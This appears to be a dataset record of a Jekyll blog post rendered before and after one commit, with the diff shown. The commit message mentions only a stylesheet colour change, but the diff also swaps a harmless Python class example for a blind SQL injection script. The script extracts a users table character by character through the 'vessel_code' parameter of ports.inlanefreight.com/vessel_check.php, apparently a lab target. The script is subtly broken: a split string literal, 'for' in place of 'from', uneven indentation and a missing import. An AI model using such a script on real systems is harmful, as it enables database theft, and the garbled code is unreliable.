

Before and after one commit to danieldavidson/danieldavidson.github.io, a Jekyll site: the page built from _posts/2016-10-01-code-syntax-highlighting.md, in a window 1280 px wide and 1400 px high, scrolled down 531 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update syntax.scss

```diff
--- a/_posts/2016-10-01-code-syntax-highlighting.md
+++ b/_posts/2016-10-01-code-syntax-highlighting.md
@@ -42,20 +42,25 @@
 
 import requests
 
-# Define the class
-class Employee:
-    name = "Mostak Mahmud"
-    # Define the method
-    def details(self):
-        print("Post: Marketing Officer")
-        print("Department: Sales")
-        print("Salary: $1000")
-# Create the employee object
-emp = Employee()
-# Print the class variable
-print("Name:",emp.name)
-# Call the class method
-emp.details()
+chars = string.ascii_lowercase + string.ascii_uppercase + string.digits
+url = 'http://ports.inlanefreight.com/vessel_check.php'
+
+
+def find_data(column, length, column_num):
+    data = ''
+    for position in range(length):
+        for ch in chars:
+            payload = "cn' or substr((select {} for users limit {},1), {} ,1)='{}
+            '== =".format(
+                column, column_num, position+1, ch)
+          # Create injection payload with each character and position
+            # vessel_code paramter for GET requests
+            params = {'vessel_code': payload}
+            response = requests.get(url, params=params)
+            if 'maintenance' not in response.text:
+                data += ch
+                break
+    return data
 {% endhighlight %}
 
 
--- a/assets/css/syntax.scss
+++ b/assets/css/syntax.scss
@@ -37,6 +37,7 @@
 $attributes: #9876AA;
 $comments: #75715e;
 $linenos: #A9B7C6;
+$punctuation: #5CECC6;
 .highlight {
   margin-bottom: 1.5em;
   color: $foreground;
@@ -113,7 +114,7 @@
 .l { color: $numbers} /* Literal */
 .n { color: $varAndProp } /* Name */
 .o { color: $operators } /* Operator */
-.p { color: $varAndProp } /* Punctuation */
+.p { color: $punctuation } /* Punctuation */
 .cm { color: #75715e } /* Comment.Multiline */
 .cp { color: #75715e } /* Comment.Preproc */
 .c1 { color: #75715e } /* Comment.Single */
```
